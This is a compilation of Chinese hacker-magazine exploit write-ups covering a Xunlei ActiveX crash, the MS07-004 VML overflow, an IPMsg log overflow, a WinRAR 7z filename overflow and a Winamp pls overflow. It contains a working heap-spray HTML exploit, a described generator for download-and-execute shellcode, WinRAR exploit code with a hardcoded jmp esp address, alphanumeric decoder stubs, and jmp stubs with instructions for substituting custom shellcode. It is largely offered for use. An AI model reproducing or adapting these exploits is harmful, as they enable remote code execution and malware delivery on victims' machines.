漏洞研究需要动态调试和静态分析相结合，这里以 GetTaskInfoStruct 函数为例，说明一下这样一个函数调用为什么会使 IE 崩溃。以下是 GetTaskInfoStruct 函数的反汇编代码片段。

```asm
.text:10001D6B ; int __stdcall failwcst_Taskinfo10001D6B(int, void*)
.text:10001D6B    push    ebp
.text:10001D6C    mov     ebp, esp
......
.text:10001D84    call    ds:GetCurrentThreadId
......
.text:10001D9C    call    ds:wsprintfA
......
.text:10001DB4    call    ds:CreateFileMappingA
......
.text:10001DD2    call    ds:MapViewOfFile
......
.text:10001DEA    mov     edi, 634h
.text:10001DEF    push    edi ; size_t
.text:10001DF0    push    [ebp+arg_4] ; void *
.text:10001DF3    lea     eax, [esi+10h]
.text:10001DF6    push    eax ; void *
.text:10001DF7    mov     dword ptr [esi+0Ch], 2
.text:10001DFE    call    failwcst_erro_memcpy
......
.text:10001E1D    push    edi ; size_t
.text:10001E1E    push    esi ; void *
.text:10001E1F    push    [ebp+arg_4] ; void *
.text:10001E22    call    failwcst_erro_memcpy
.text:10001E27    add     esp, 0Ch
.text:10001E2A    push    esi ; lpBaseAddress
.text:10001E2B    call    ds:UnmapViewOfFile
......


```

在上面的代码中，我给出了 IDA 对 GetTaskInfoStruct 的部分分析结果。由这个函数中的调用可以看出，函数的主要作用是获得任务的属性信息。为什么汇编中看出这个函数有两个参数，而在 POC 的调用中我们只给出了一个参数呢？呵呵，大家好好想想这个吧！

在代码片段中，我们可以看出传入的参数实际上被用作表示一块缓存的地址，应该是一个有效的可读写的内存地址。POC 中给了一个 4，所以在调用 memcpy 函数时对内存位置为 4 的地方进行操作，导致内存错误而使 IE 崩溃的。

具体说来就是：首先，`.text:10001DFE` 处调用的 memcpy 把我们传进的内存地址开始往后的 `0x634=1588` 字节大小的内容拷进 `ESI+0x10` 这个地方，然后在 ESI 处写进 1，`ESI+0x0C` 的地方写进 2；最后，`.text:10001E22` 处的调用把从 ESI 开始的 1588 个字节拷回参数所指的地方。这个过程实际上就相当于给原来的缓冲区前加了一个值分别为 1 和 2 的“头”。

如果我们给这个函数送进去一个有效的内存地址，比如我在调试的时候看到栈区的 0x00122222 是一片比较安全的地方，把这个当参数传进去试试会怎样？果然，IE 不再崩溃了，函数也得到了正常的执行。

至于这个漏洞的利用嘛，目前还没有什么好办法，如果你想到什么好的利用方法，一定要不吝赐教啊！

另一个函数 GetInfoStruct 用来获得迅雷本身的信息，如版本号等。它的崩溃原理和这个几乎一样。结合随文资料中的信息和前边的分析，希望大家能够自己动手调试一下这个函数，这里就不再赘述了。

Axis 在发布漏洞的 POC 中说，这是一个整数溢出问题。不过根据调试的情况和上面的分析来看，这种说法还不是非常准确。这个漏洞发生的真正原因是没有对异常地址进行处理（天呐，写程序还要对每个送进来的内存地址验证一下啊！），其实我觉得这种类型的函数就不应该被用户访问到，隔离、封装、隐藏……这样的函数才是正道，放在那一大堆操作内存的函数中很容易被 fuzz 出几个错误框的嘛！

对于这个漏洞，目前厂商还没有提供补丁或者升级程序，我们建议使用迅雷的用户随时关注厂商的主页 http://www.xunlei.com，以获取最新版本。

### MS07-004 分析和利用

文/图 gyzy[江苏大学信息安全系&EST]
相信大家对去年的 MS06-055 还记忆犹新吧？那是由于微软的矢量标记语言 VML 中的 Method 变量 F 未对其长度进行检查，导致了一个栈溢出漏洞。2007 年的新年钟声刚刚敲响，又一个关于 VML 的漏洞曝光了，CVMLRecolorinfo::InternalLoad() 中的 recolorinfo 方法中存在整数溢出。现在 milw0rm 第一时间公布了关于此漏洞的 POC 代码，无疑为我们的分析过程提供了方便。我们可以从二进制补丁对比中定位到出现问题的代码，微软的补丁中增加了一个对 eax 检查的指令“cmp eax, 0x5d1745d”，如图1所示，相关代码如下。

eax 是从 HTML 代码中得到的，由于 32 位寄存器所能表示的数的范围是有限的，所以假如我们提交一个很大的数，那么乘以 2Ch 以后就反而变小了。6FF176BA 中的代码调用了 malloc 申请堆内存，所以这个漏洞本质上来说是因为整数溢出而间接导致了堆溢出。那么我们如何定位这一段代码呢？我们首先用 OD 在上面这段代码中下硬断点，在命令行中输入“he 7FF176AD”，然后打开 POC 页面，很快 OD 断了下来，如图2所示。
图1
图2

```asm
.text:6FF176A7 loc_6FF176A7:
.text:6FF176A7 mov eax, [esi+8]
.text:6FF176AA add eax, [esi+4]
.text:6FF176AD test eax, eax
.text:6FF176AF jle short loc_6FF176C4
.text:6FF176B1 imul eax, 2Ch
.text:6FF176B4 push 101h
.text:6FF176B9 push eax
.text:6FF176BA call sub_6FECFEF4
.text:6FF176BF pop ecx
.text:6FF176C0 pop ecx
.text:6FF176C1 mov [esi+14h], eax
```

然后我们跟进 6FECFEF4 处，得到了 malloc 返回的指针 003A8320，在这个地址下写断点“hw 003A8320”，断在如图3所示的地址处。`push 0B`、`pop ecx` 和下面的 `rep movs` 这 3 条指令是将 `rgb(x,x,x)`（参见后面的 Exp）的颜色参数经过一定的算法（下文简称 RGB 算法）算出的结果复制到堆中，每次 0B 字节。recolorinfo 中共有 5 个参数，分别是 tocolor、locolor、forecolor、backcolor 和 fromcolor，需要经过 RGB 算法得出，`0B×5=2C`。由此我们可以猜测下面每个 recolorinfoentry 都会复制 2C 个字节到堆中。我们看看 OD 下方的数据窗口来验证一下我们的……图3下，测试结果如图5所示。

图5

猜测果然是从 003A83FC 处开始每 2C（十进制的 44）字节的数据都是重复的。然后我们按下 F9 键让 IE 跑起来，OD 提示有异常，如图4所示。很明显，某些函数指针被覆盖了！我们在内存中搜索 6E006F00，在 00010101 的地方发现了这串序列，而 00010101 就是出现在堆内存中的数据，假如我们能将指针指向我们的 ShellCode，嘿嘿……

图4

那么我们如何利用这个漏洞呢？它和普通的堆溢出的利用方式有点不同。传统的堆溢出是通过二次 Alloc 或 Free 改写 RtlEnterCriticalSection 或者 UnhandledExceptionFilter 等指针来获得代码的执行权，而 IE 里则可以通过一种“暴力扩张堆”的方法来获得代码执行权，就是连接成 05050505+ShellCode 这样的形式。堆是从低地址向高地址增长的，再看看堆中被我们覆盖的数据，假如我们 Call 的不是 [00010101] 而是 [01010100]，那就正好跳转到了 05050505 这个地址。在一连串的“Add eax,5050505h”指令之后，这些指令无关紧要，并且最终跳入了我们的 ShellCode 中执行。堆中的数据都是由 recolorinfo 中的一些参数得到的，具体的算法我也没有细细地跟，头大啊。另外，这个漏洞因机器而异，不会有 100% 的成功率，相信看到现在读者朋友也该明白。然后，我们把 ShellCode 换成自己的 down&exec 的，关于怎么写 ShellCode，大家可以翻翻《黑客防线》杂志以前的文章。但是有一点，就是记得前面要加 4 个 nop，否则可能出现失败的情况，因为连续的 050505 会破坏你的 ShellCode，需要几个 nop 缓冲一下。我在中文 Windows XP SP2+IE6 下测试成功了，测试的代码如下：

```html
<html xmlns:v="urn:schemas-microsoft-com:vml">
<head>
<object id="VMLRender"
 classid="CLSID:10072CEC-8CC1-11D1-986E-00A0C955B42E">
</object>
<style>
v\:* { behavior: url(#VMLRender); }
</style>
</head>
<body>
<SCRIPT language="javascript">
shellcode = unescape("%u9090%......省略......u8065");
bigblock = unescape("%u0505%u0505");
headersize = 20;
slackspace = headersize+shellcode.length;
while (bigblock.length<slackspace) bigblock+=bigblock;
fillblock = bigblock.substring(0, slackspace);
block = bigblock.substring(0, bigblock.length-slackspace);
while(block.length+slackspace<0x40000) block = block+block+fillblock;
memory = new Array();
for (i=0;i<350;i++) memory[i] = block + shellcode;
</script>
<v:rect style='width:120pt;height:80pt' fillcolor='red'>
<v:recolorinfo recolorstate="t" numcolors="97612895">
......省略，详细代码见随文资料......
lbcolor="rgb(1,1,1)" forecolor="rgb(1,1,1)"
backcolor="rgb(1,1,1)"
fromcolor="rgb(1,1,1)" lbstyle="32" bitmaptype="3"/>
</v:recolorinfo>
</html>
```

另外，为了方便《黑客防线》杂志读者的测试，我写了一个生成器，填充的是 down&exec 的 ShellCode，填入要下载的程序的网址点击生成即可。假如一切顺利，程序将会被执行，希望大家不要用于非法用途啊！需要扩展功能的可以自己改 ShellCode，通过更改 RGB 算法中的 3 个参数可以更加精确地定位 ShellCode。

### IPMsg

#### 溢出的简单分析

案例编号/专题标识（黑底白字）

IPMsg 是一款局域网内的即时通信软件，可运行于多种操作平台，不需要服务器支持，十分小巧方便，可快速地传送文件/文件夹，并且公开源代码，可以任意修改、补充。作者下载并分析其 2.06 版本源码，重点检查是否存在溢出风险。

图1

进一步检查显示，strcpy 相关位置多数可控且长度受限；随后转向 sprintf/wsprintf 等更危险函数，重点查看 INSTALL.CPP 与通信相关代码，继续定位潜在溢出点。

在 LOGMNG.CPP 中发现可疑位置（约第 60 行），函数 `BOOL LogMng::WriteMsg(LPCSTR msg, ULONG command, ShareInfo *shareInfo)` 用于记录通信日志，后文给出完整代码并附注释。

旁注内容讨论了防火墙、脚本加密、ShellCode 注入绕过等安全话题，并提示读者可基于示例进一步改进测试代码。

图6

文章末尾说明：写作较仓促，难免疏漏，欢迎到论坛交流问题。

> 【本文涉及的代码（程序），请见随书光盘】

```cpp
BOOL LogMng::WriteMsg(LPCSTR msg, ULONG command, ShareInfo *shareInfo)
{
    char buf[MAX_BUF * 2] = " at ";
    strcat(buf, Ctime());
    strcat(buf, " ");
    if (command & IPMSG_BROADCASTOPT)
        strcat(buf, BROADCASTLOG_MSGSTR);
    if (command & IPMSG_AUTORETOPT)
        strcat(buf, AUTORETLOG_MSGSTR);
    if (command & IPMSG_MULTICASTOPT)
        strcat(buf, MULTICASTLOG_MSGSTR);
    if (command & IPMSG_ENCRYPTOPT)
        ...
}
```

```c
// 如果采用了加密
strcat(buf, ENCRYPT_MSGSTR);
// 在buf后加上"(RSA)"
if (command & IPMSG_SECRETOPT) {
    if (command & IPMSG_PASSWORDOPT)
        strcat(buf, PASSWDLOG_MSGSTR);   // "(locked)"
    else
        strcat(buf, SECRETLOG_MSGSTR);   // "(sealed)"
}
if (shareInfo && (command & IPMSG_FILEATTACHOPT)) {
    strcat(buf, "\r\n" FILEATTACH_MSGSTR " "); // "(files)"
    char fname[MAX_PATH], *ptr = buf + strlen(buf);
    for (int cnt=0; cnt < shareInfo->fileCnt && ptr-buf < sizeof(buf)-MAX_PATH; cnt++) {
        ForcePathToFname(shareInfo->fileInfo[cnt]->Fname(), fname);
        ptr += wsprintf(ptr, "%s%s", fname, cnt+1 == shareInfo->fileCnt ? "" : ", ");
    }
    strcat(buf, "\r\n------------------------------\r\n");
}
if (WriteBuf() && Write(msg) && Write("\r\n\r\n"))
    return TRUE;
else
    return FALSE;
```

长度要小于 1788，即 buf 剩下的空间至少还有 260，才会记录下一个文件的文件名。虽然有了这样的检查，不过最后还复制了 37 个字节的分隔符 `strcat(buf, "\r\n------------------------------\r\n");`，所以还是可能被溢出的。

分析好了，再看看如何构造使其溢出吧！我们传送多个文件，只要让之前的文件名长度和间隔符长度之和为 1787，就可以保证程序再复制一个文件名；如果正好覆盖完，后面的分隔符就可以使其溢出了。

实际测试下，首先是 Windows 最长只支持长度为 260 的文件名，然后 ForcePathToFname 函数会把超过长度 226 的文件名打成 Unknown，所以我们构造一个长度为 134 字节、7 个长度为 226 的文件。这样 `226×7+134=1716`，再加上 8 个分隔符和前面的时间标志等信息约 55 字节，总长约 1787，满足小于 1788 的复制条件。后面再加一个 226 长度文件名，就会复制 `226+37>260` 的字符，从而导致溢出。

至于日志输出的具体形式，我们可以右键单击任务栏上的“飞鸽”图标，在弹出菜单中选择“查看通信记录”，就会弹出日志文件，可以看到其日志格式如图2所示。

记录日志的 buf 数组只有 2048 个字节长，因为不断地把文件名复制到 buf 里面，就有可能被溢出，也就是下面这段代码。

```c
for (int cnt=0; cnt < shareInfo->fileCnt
    && ptr-buf < sizeof(buf)-MAX_PATH;
    cnt++) {
    ForcePathToFname(shareInfo->fileInfo[cnt]->Fname(), fname);
    ptr += wsprintf(ptr, "%s%s", fname,
        cnt+1 == shareInfo->fileCnt ? "" : ", ");
}
strcat(buf, "\r\n------------------------------\r\n");
```

代码里还是有长度检查的，要求满足 `ptr-buf < sizeof(buf)-MAX_PATH;`。其中左边 `ptr-buf` 表示当前已经复制的字节长度，右边 `sizeof(buf)-MAX_PATH` 为 `2048-260=1788`，其含义是当前已复制长度必须小于 1788。

如图5所示，接收端还没有接收，就已经 Crash 了，成功溢出！不过 IPMsg 虽然可以溢出，但溢出的字符是不能控制的，而且溢出部分太短不好利用，所以对软件使用来说还是安全的。如果是中文版，由于中文占据字节更多，说不定会有控制 EIP 并利用的可能，这个任务就留给溢出爱好者们去自行挖掘吧！

> 【本文涉及的代码（程序），请见随书光盘】

### WinRAR 7z 文件名溢出分析和利用

文/图 gyz[江苏大学信息安全系&EST]

security.nnov.ru 在 2006 年底的时候发布了一个针对 WinRAR 7z 溢出的 POC，可以导致执行恶意代码，此溢出出现在 WinRAR 3.40–3.60（7-zip module）版本中，其他版本暂未发现。可能有些朋友认为 7z 格式出问题不是那么严重，但 WinRAR 有个不算 Bug 的 Bug，它是不认扩展名的，这意味着将 7z 格式的压缩包扩展名改成“.rar”还是能被 WinRAR 解压的，这就给恶意利用创造了机会。在 WinRAR 安装目录下的 Formats 文件夹里有许多扩展名为 fmt 的文件，它们其实都是 DLL，供主程序调用处理不同的压缩包。在 2006 年 7 月份的时候，LZH 格式也曾出现过 Stack Overflow，但这次的 7z 溢出严格地来说并不能称之为 Stack Overflow，看完下面的漏洞分析，大家就知道为什么了。

```c
// 超长的文件名，Unicode编码

unsigned char lz_part2[] =
"\x...";

// 文件属性等信息
```

这样，一个畸形的 7z 压缩包就构造好了，大家自己和图1对比一下，是不是一样呢？

图1

既然已经有了 POC，我们就没有必要自己去阅读大把的 7z 格式说明文档了。7z 是开源的，在其官方网站（www.7-zip.org）能下载到格式说明和一个开源工程，感兴趣的朋友可以仔细研究一下 7z 的文件格式。这里我直接给出 POC 代码中公布的一个已经构造好的畸形压缩包，代码如下。

```c
unsigned char lz_part1[] =
"\x37\x7A\xBC\xAF\x27\x1C\x00\x02"
// 前8个字节是固定的
"\xED\xD6\x49\x23"
// 7z头部32字节的CRC1
"\x00\x00\x00\x00\x00\x00\x00\x00"
// 下一个7z头的偏移，这里是0
"\x2D\x40\x00\x00\x00\x00\x00\x00"
// 下一个头的长度，这里是0x402D
"\x3D\xC3\xFE\x9B"
// 除前32字节外的CRC2
"\x01\x05\x01\x0E\x01\x80\x0F\x01\x80\x11\x80\x01\x00";

char filename[0x400A];
```

不过先别急着打开，因为 WinRAR 会对 7z 压缩包进行 CRC32 校验，假如校验有错的话就会提示压缩包损坏，所以我们必须自己重新计算 CRC 校验值。所幸的是，czy 大牛的博客上公布了一个计算 7z CRC 校验的程序，我在其基础上略微修改了一下，在此表示感谢。假如大家为了练手要自己动手，那么有一点需要注意，由于第二个 CRC 值会间接影响到第一个 CRC 校验，所以必须先计算第二个 CRC 校验值。CRC32 的算法在网上可以很方便找到，这里就不多说了。我所提供的 7zCRC.exe 默认校正当前目录下的 test.rar，这一点也请注意。7zCRC.exe 程序我已在随文的资料中提供。

#### 小试牛刀

也许大家会奇怪，为什么图1里面文件名填充的都是重复的 0x9960 呢？答案就是 Unicode！7z 要求文件名必须是 Unicode 编码，0x9960 就是两个 nop【0x90】的 Unicode。对于 Unicode 我不再多做解释，有一点大家要牢记：0x80 以上的会被转义。举个例子，0x4100 大家都知道是大写的 A，但是 0x9000 就不是大家所熟悉的 nop 了，依据语言环境的不同，可能会被转义成乱码。正是这一点，给我们下面的完美利用带来了许多麻烦。我们双击打开压缩包，然后要点“解压到（Extract To）”才能触发 WinRAR 出错，如图2所示。

图2

Offset:90909090！嘿嘿，EIP 被覆盖了，接下来我们要做的就是定位溢出点，两次定位法，这里还是不多说了，大家翻看以前的《黑客防线》杂志就明白是如何操作的了。我直接给出结果，溢出点就在“filename+8”开始的 4 个字节。由于我们的 ShellCode 在栈中，我习惯性地想到了中文 Windows 2000/XP/2003 下通用的 Jmp esp 跳转地址 0x7FFA4512，下面看看我的代码。

```c
// 写入超长文件名
char content[0x2005];
// 0x400A/2 = 0x2005，用于 ASCII 向 Unicode 转换
memset(content,0x41,0x2005);
// 填充0x41不会引起转义问题
memcpy(content+4,"\x12\x45\xfa\x7f",4);
MultiByteToWideChar(CP_ACP,0,content,0x2005,(LPWSTR)filename,0x400A);
// Convert
WriteFile(h7z,(LPCVOID)filename,0x400A,&dwWritten,NULL);
```

这时候栈的地址是在 0x17Dxxxxx 这个地方，马上重新生成一个压缩包，打开，但出错的地址不在栈中，意味着 EIP 没有跳转到栈中，如图3所示。奇怪，3f 是哪来的呢？经过查找资料，了解到 Unicode 是双字节码，3f 表示的是未知字符，文件名的 16 个字节经过 MultiByteToWideChar 函数的转化后已经变成了 `\x41\x00\x41\x00\x41\x00\x41\x00\x12\x00\x45\x00\x3f\x00\x41……` 看来这个地址是不能用了。

图3

POC 中提供的是 0x100201BB 地址，这个地址是在 7zxa.dll 的 .rdata 段里，虽然这里有个 0xBB，但是由于它处在首尾两端，我们还是可以给它补一个字节的，这样就不怕转义了；但是在测试中我发现，7z.fmt 和 7z.dll 的加载基址几乎每次都是不一样的，所以这个地址也只能放弃。难道我们真的要放弃？

#### 柳暗花明

我们的跳转地址必须符合以下条件才可能成功利用：

- 需要能够跳回栈。
- 4 个字节不能出现大于 0x80 的字节；若出现 0x80 以上的字节，则不能出现在中间两个位置上。

打开 OD 的内存，一个一个模块搜索过来，皇天不负有心人，在所有加载模块的最高处 Shell32.dll 的 .text 段里面居然让我找到了：0x7D64698！这下我们的跳转地址就可以这么构造了：0x4100 0x4100 0x4100 0x8A7C 0x6900 0x6400 0x7D00，其中 0x8A7C 是 0x81 的 Unicode。但这不是最完美的解决方案，因为不是每台机器的 0x7D64698 都是 Jmp esp；不过同一个 SP 下 Shell32.dll 加载的基址应该是固定的。至于如何实现通用，这个问题还是留给读者自己去思考吧。

ShellCode 的定位问题算是暂时告一段落了。紧接着而来的问题就是要有能经得起转换的 ShellCode。对了，纯字母数字的 ShellCode 就是符合这样要求的 ShellCode，能经得起 MultiByteToWideChar 折腾的也就是它了。《黑客防线》杂志已经发表过关于编写纯字母数字的 ShellCode 文章了，不了解的可以翻看一下。不知大家是否已经有了自己的 AlphaNumeric 的 ShellCode 呢？如果没有的话，这里提供一个生成的模板供大家使用。

```c
{ "\x00$U", "IIIIIIIIIIIIIIIIIII7" }
mixedcase_ascii_decoder_body },
{ "eax", "PYIIIIIIIIIIIIIII7QZ" }
mixedcase_ascii_decoder_body },
{ "ecx", "IIIIIIIIIIIIIIIIIII7QZ" }
```

```c
mixedcase_ascii_decoder_body },
{ "edx", "JJJJJJJJJJJJJJJJJ7RY" }
mixedcase_ascii_decoder_body },
{ "ebx", "SYIIIIIIIIIIIIIII7QZ" }
mixedcase_ascii_decoder_body },
{ "esp", "TYIIIIIIIIIIIIIII7QZ" }
...
{ "[esp+1C]", "YYYYYYYYIIIIIIIIII7QZ" }
mixedcase_ascii_decoder_body },
{ "seh", mixedcase_w32sehgetpc "IIIIIIIIIIII7QZ" }
// ecx code


```
图4

为什么我打开的时候不触发漏洞，只有解压的时候才触发呢？为什么我说这不是严格意义上的栈溢出呢？带着这一连串的问题，任何言语的猜测都是苍白的，还是让OD去解开我们的疑团吧。我们先加载 WinRAR.exe 让 OD 跑起来，记得先把跳转地址改掉，以免出现没有断下来的尴尬局面；另外还要记得校正 CRC 值，不然它会郑重地警告你一下，哈哈，接下来祈祷你的机器没有假死吧，如图5所示。
图5

这段代码是解码头，根据溢出的时候哪个寄存器指向 ShellCode 进行选用，生成 ShellCode 主体的函数随文资料 alphashellcode 中已经提供。我们这里应该选择“TYIIIIIIIIIIII7QZ”这个解码头，由于 ShellCode 比较长，我这里就不写出来了，大家自己看随文提供的资料就可以了，以免我有骗稿费之嫌。再次测试，成功！结果如图4所示。

#### 疑云重重

虽然利用是成功了，不过大家有没有发现一些比较奇怪的问题呢？既然是栈溢出，为什么溢出点却在超长字符串的前面，而不是在中间或者后面，不会是它的缓冲区只有1个字节吧？为什么我打开的时候不触发漏洞，只有解压的时候才触发呢？

以我的经验来看，似乎原版的 OD 好像稳定性好一点，所以这里我用的是原版的。这个时候 EIP 已经被覆盖了，在堆栈窗口里往上往下都翻了翻，没有翻到正常的返回地址，奇怪了，不可能所有的返回地址都被覆盖了吧，这也太狠了，居然一点线索都不给留下。按照常规堆栈回溯，应该很容易找到出问题的代码的，看来事情越发扑朔迷离了。Ctrl+F2 重新来，F9 让它跑起来，然后 bp `CreateThread`，在这上面下断点，因为很明显，解压文件的时候需要新开线程。我们会发现 0049CDFC 这个地址是新开线程的起始地址，然后一步步往下跟（省略 N 多步骤，要是都写出来有点……）。

感觉自己像是写长篇小说了 ^_^，跟进到如下的代码处，会发现返回的时候 EIP 被覆盖了。RETN 8 指令说明在返回地址后面要有 8 个字节的保留空间，再跟 ShellCode。我们在 0045BD80 处下断，如图6所示。
图6

```asm
0045BD63  |. E8 7466FBFF      |CALL WinRAR.
004123DC
0045BD68  |. 84C0            TEST AL,AL
0045BD6A  |. 74 04           JE SHORT WinRAR.
0045BD6C  |. B0 01           MOV AL,1
0045BD6E  |. EB 0F           JMP SHORT WinRAR.
0045BD70  |> 43              INC EBX
0045BD71  |> 3B9F 04040000   CMP EBX,DWORD PTR DS:[EDI+404]
0045BD77  |. 0F8C 41FFFFFF   JL WinRAR.0045BCBE
0045BD7D  |. 33C0            XOR EAX,EAX
0045BD7F  |. 5F              POP EDI
0045BD80  |. 5E              POP ESI
0045BD81  |. 5B              POP EBX
0045BD82  |. 8BE5            MOV ESP,EBP
0045BD84  |. 5D              POP EBP
0045BD85  \. C2 0800         RETN 8
```

#### 柳暗花明

这时的 ESP 还是 01DCF80C，怎么后来就跳到了 017D6578 了呢？答案就在下面 0045BD82 处的 “MOV ESP,EBP”，而 EBP 恰恰是 017D6578，这就解释了刚才的种种疑问。为什么异常发生的时候栈里回溯不到调用信息，为什么溢出点会出现在字符串的前几个字节，答案就是 EBP 的值被污染了！重复上面的若干步骤，在 01DCF8E8 上写入硬断，里面保存着被覆盖前的 EBP，下面这段代码则覆盖了栈里的正确 EBP 值。

```asm
00494AD8 |. 57              PUSH EDI
00494AD9 |. 8B7D 08         MOV EDI,DWORD PTR SS:[EBP+8]
```

```asm
[EBP+8]
00494ADC |. 8BC7            MOV EAX,EDI
00494ADE |. 8B75 0C         MOV ESI,DWORD PTR SS:[EBP+C]
00494AE1 |. 8B4D 10         MOV ECX,DWORD PTR SS:[EBP+10]
00494AE4 |. 8BD1            MOV EDX,ECX
00494AE6 |. D1E9            SHR ECX,1
00494AE8 |. D1E9            SHR ECX,1
00494AEA |. FC              CLD
00494AEB |. F3:A5           REP MOVS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]
00494AED |. 8BCA            MOV ECX,EDX
00494AEF |. 83E1 03         AND ECX,3
00494AF2 |. F3:A4           REP MOVS BYTE PTR ES:[EDI],BYTE PTR DS:[ESI]
00494AF4 |. 5F              POP EDI
```

省略 N 多步骤后，最后可以发现是 00412562 这里的指令将 EBP 值污染了，然后返回到 0045BD82 的时候间接覆盖了 ESP。

```asm
00412562 |. 5D   POP EBP


```

跟踪到这的时候，我也觉得有点意思，很难说这是个标准的覆盖返回地址或者 SEH 链的栈溢出，但是确实间接地覆盖了返回地址。最近一年来，各种第三方软件的文件处理漏洞逐渐多了起来，个人觉得像这一类的漏洞基本上只能靠黑盒测试发现，代码审计也许都很难发现。POC 的作者能发现这个溢出也算运气，也许短一点的文件名根本就触发不了这么隐秘的 Bug。而且这个溢出确实不太好利用，溢出点如果靠后点还能伪装一个诱人点的文件名，但这个溢出大家用来练练手还是不错的，因为其中牵涉到了很多方面的知识。

#### 小结

本文介绍了针对已发布的 POC 进行改写利用的一些方法和心得，并给出了相关实例，希望对感兴趣的朋友能起到抛砖引玉的作用。文章写得比较仓促，错误疏漏在所难免，敬请广大读者指正。

【本文涉及的代码（程序），请见随书光盘】

### WinRAR 7z 文件名溢出分析和利用
### ShellCode 到底怎么出现问题
文／图 聂金钢

缓冲区溢出是一种很古老很经典的攻击方式，现在还有很大的利用价值。很多技术网站，例如 www.securityfocus.com、www.milw0rm.com，国内的绿盟、安全焦点等都有关于这方面的研究或收集可用的 ShellCode。当我们通过网络或反汇编病毒文件得到缓冲区溢出攻击代码后，如何来分析漏洞的存在位置和原理以提高自己的技术或写出更通用的 ShellCode 呢？本文记录了我对 Winamp 的 pls 文件溢出的分析过程，希望能对大家起到抛砖引玉的作用。

我从 milw0rm 网站上看到了近几天公布的 ShellCode，有个关于 Winamp 的，这个软件也是漏洞不断，当初就有 m3u 文件名溢出漏洞，现在又出了 pls 文件播放列表溢出漏洞，都是和播放列表有关的。刚学溢出，就分析分析提高技术吧。

下载了 Winamp5.12 和 Perl 编写的利用程序，运行利用程序生成畸形 pls 文件，在 Winamp 中打开，计算器一下就弹出来了，攻击得比较顺利。后来发现此版本的 Winamp 在处理热键时也存在漏洞，按 Ctrl+D 程序会挂掉，我的 SoftIce 就不好使了，这里不是重点，就用 OllyDbg 来分析吧。

#### 找准关键位置的方法

根据利用程序找到溢出关键的地方还是比较容易的，在利用程序中可以看到是这样写的：“$shellcode="\x54\x50\x53\x50\x29……"”。现在用 OD 载入 Winamp 并运行，拖入畸形 pls 文件，双击播放，计算器弹出来了，这时我们就可以在内存中搜索攻击代码了。Alt+M 进入 OD 内存映射窗口，Ctrl+B 搜索 Hex:54 50 53 50，我找到的地址是 00133462，如图1所示。

“00133462”也就是写入时的硬件断点，重新载入并运行，播放 pls 文件，OD 断了下来，这里离关键位置就很近了。此时计算器还没有弹出，我们可以按 Ctrl+F9、F8 往下运行，遇到 CALL 就 F8 步过，很快就到了“02006613 CALL in_mp3.02005A60”，这个 CALL 执行后计算器就弹出来了，这里就是关键位置了，记下它的地址，如图2所示。
图1

```asm
02005D5E 50            PUSH EAX
02005D5F FFD6          CALL ESI
...
02006612 52            PUSH EDX
02006613 E8 48F4FFFF   CALL in_mp3.02005A60
...


```

图2

#### 分析 ShellCode 攻击流程

重新加载并运行，在 02006613 处下断，播放攻击性的 pls 文件，断下后按 F7 进入 CALL，此时在数据窗口中跟随 ESP。刚进入时 ESP 为 00132FDC，其内容为 02006618，也就是此 Call 的返回地址，此时 OD 显示是处于 in_mp3 的模块中。单步向下执行完 02005A84 处的 CALL 后，我们跟随的 ESP 存放值就会被覆盖为 0202D961，如图3所示。为了有更好的可读性，我用 IDA 分析一下 in_mp3.dll，这里的代码如图4所示。
现在我们可以明确了，是 strcpy 这个函数在复制时没有检查字符串长度，覆盖了返回地址。其原型为 strcpy(char *dest,const char *src)。复制前 EAX 指向 00132BDC 的堆栈位置，复制后的数据也就从这里开始存放，我们只要精心构造复制过去的内容覆盖 00132FDC 处存放的返回地址就可以控制此程序的运行流程了。00132FDC-00132BDC=0x400=1024，也就是说我们提交的字符串的 1024 长度处即为构造的函数返回地址，这就是溢出程序中 “Buffer="\x90x1023"+EIP” 的原因了。为什么要覆盖返回地址为 0202D961 呢？Ctrl+G 过去看看吧！原来这是 in_mp3.dll 中的 CALL ESP 地址，执行到这里时 ESP=00132FDC+4=00132FE0，指向机器码 83EC34 处，我们看下面的代码。

```perl
$jmp="\x61\xD9\x02\x02"  
"\x83\xEC\x34"    sub esp,34  
"\x83\xEC\x70"    sub esp,70  
"\xFF\xF4"        jmp esp
```

00132FDC-34-70=132F38，正好指向 ShellCode 的起始位置，这样计算器就被弹出来了。在 ShellCode 结尾处还有两个 CC，对应着 int 3，推测是产生异常进入 SEH，优雅而不动声色地结束程序！

#### 打造适用的 ShellCode

网站上下载的 ShellCode 比较“温驯”，只是弹出计算器来表明自己控制了 Winamp。我们要做的就是如何通过简单修改打造出适合我们自己的攻击代码。这个过程比较简单，应当注意的有3点。

- 1. **Buffer 位置的确定**：在缓冲区中，我们所构造的内容大致是这样的 NOP+ShellCode+JMP ESP，用我们自己的 ShellCode 字节数减去演示用的代码字节数，这个差值用来决定缓冲区中 0x90 的多少（随文附件中我已给出两个生成畸形 pls 播放列表的 pl 文件，对比字符数就很容易明白了）。
- 2. **ShellCode 字符的截断问题**：刚开始测试跟踪时，我发现自己的开 Telnet 的 ShellCode 并没有成功地执行，在执行 Strcpy(EAX,EDI) 前数据窗口跟随 EDI，发现其内容被截断了。对比即可知道 Winamp 在获取文件名时遇到 0x0d、0x0a 和 0x00 都认为获取完毕，这就需要我们改善 ShellCode 了，当然，网上也可以找到不含这几个字符的 ShellCode。
- 3. **ESP 位置的确定**：修改了 ShellCode 后，原来的 $jmp 就不适用了，在 EDI 的数据窗口中向下翻动，找到新的 ShellCode 位置是 00132EC0，00132FDC-00132EC0=0x11C，下面是改后的 $jmp。

```perl
$jmp="\x61\xD9\x02\x02"  
"\x83\xEC\x34"    sub esp,34  
"\x83\xEC\x78"    sub esp,78  
"\x83\xEC\x70"    sub esp,70  
"\xFF\xF4"        jmp esp


```

0x34+0x78+0x70=0x11C，esp 减的数字大于 80 时，生成的汇编代码中就会有字符 0x00，所以就减了3次。OK，现在我们就可以享受溢出的成就了，如图5所示。怎么样？编写一个这样的 ShellCode 还算简单吧？如果对溢出很感兴趣的话，那就也找个溢出漏洞来试试看。
### Fuzzing in Word

#### 溢出分析和利用

文/图 gyzy[江苏大学信息安全系&EST]

